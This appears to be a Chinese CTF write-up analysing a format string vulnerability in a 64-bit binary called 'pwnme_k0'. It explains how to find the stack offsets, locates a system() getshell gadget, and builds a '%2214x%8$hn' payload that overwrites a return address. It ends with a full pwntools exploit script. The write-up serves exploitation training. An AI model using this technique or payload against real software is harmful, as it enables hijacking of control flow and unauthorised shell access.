 ```
```

**4.2 三个白帽-来PWN我一下好吗**

本题应该是有多个漏洞多种解法的，利用格式化字符串只是其中一种。程序为64位，在64位下，函数前6个参数依次保存在rdi、rsi、rdx、rcx、r8和r9寄存器中（也就是说，若使用”x$”，当1&lt;=x&lt;=6时，指向的应该依次是上述这6个寄存器中保存的数值），而从第7个参数开始，依然会保存在栈中。故若使用”x$”，则从x=7开始，我们就可以指向栈中数据了。

通过IDA逆向出来的源代码和动态调试，我们知道包含格式化字符串漏洞的脆弱点在0x400B07函数处，那么先来确定可控输入的偏移位置。

[![](https://p0.ssl.qhimg.com/t01b96119075a16e23c.png)](https://p0.ssl.qhimg.com/t01b96119075a16e23c.png)

通过%$x测试几次即可知道，输入的用户名偏移是8。有了这个基准位置，就可以考虑往栈上写入数据了，接下来的问题就变成了两件事，即写什么和怎么写。

写什么比较好解决。通过IDA逆向的交叉引用功能，我们在0x4008a6处发现了一段调用system函数的现成getshell代码。这样的话，我们需要做的就是把控制流转向0x4008a6。

[![](https://p3.ssl.qhimg.com/t0162f0fb17fca7f583.png)](https://p3.ssl.qhimg.com/t0162f0fb17fca7f583.png)

下面要解决怎么写的问题了。如下图所示，绿框中的是输入的用户名字符串，其偏移位置是8，则偏移7（第一个红框）处是当前函数0x400b07的返回地址，而偏移15（第二个红框）处是当前函数的上层函数0x400d2b的返回地址。

[![](https://p3.ssl.qhimg.com/t013ecbf14faa076670.png)](https://p3.ssl.qhimg.com/t013ecbf14faa076670.png)

我们希望将第一个红框中的0x400d74修改为0x4008a6，这就需要用到%n。在0x400B07函数中，我们可控的输出有两次，分别是输出用户名和输出密码，分别对应了从8-12这5个偏移位置。其中，偏移8-10对应用户名，10-12对应密码，而偏移10由用户名和密码共享，各占4个字节。

对于用户名，输入上图中第一个红框所对应的栈内地址，图中是0x7ffc41428068，但由于每次运行时栈内地址都会发生变化，故需动态获取。

对于密码，输入“%2214x%8$hn”，其中，2214是0x8a6的10进制，而%8$hn表示将前面输出的字符数（即2214）写入偏移8处储存的栈地址所指向空间的低两字节处，即修改0x0d74为0x08a6；若用n，则%2214x需改为%4196518x，即需要输出4196518个字符，开销太大，特别是在远程攻击时，很可能导致连接断掉。

分析到这里，利用代码的流程就清晰了，需要进行三次输入。第一次输入用来获取栈地址，我们通过用户名让printf输出偏移6处保存的栈地址，该栈地址与偏移7所在的栈地址的差值是固定的，即0x38。第二次输入时，我们将用户名设置为偏移7所在的栈地址（即上一步中，减去0x38得到的那个值），将密码设置为“%2214x%8$hn”，即可实现对偏移8处所保存栈地址指向的空间的低两字节的修改，完整利用代码如下。

```
from pwn import *
p = process("./pwnme_k0")
print "-----get stack address-----"
print p.recvuntil("username(max lenth:20): n")
p.send("abcd.%6$lx") 
print p.recvline()
p.sendline("1234")
print p.recvuntil("&gt;")
p.sendline("1")
tmpstackaddress = p.recvline()[:-5][5:]
stackaddress = int(tmpstackaddress,16) - 0x38
print "-----insert formatstring-----"
print p.recvuntil("&gt;")
p.sendline("2")
print p.recvline()
p.sendline(p64(stackaddress))
print p.readline()
p.sendline("%2214x%8$hn")
print p.recvuntil("&gt;")
print "-----exploit-----"
p.sendline("1")
p.interactive()
```
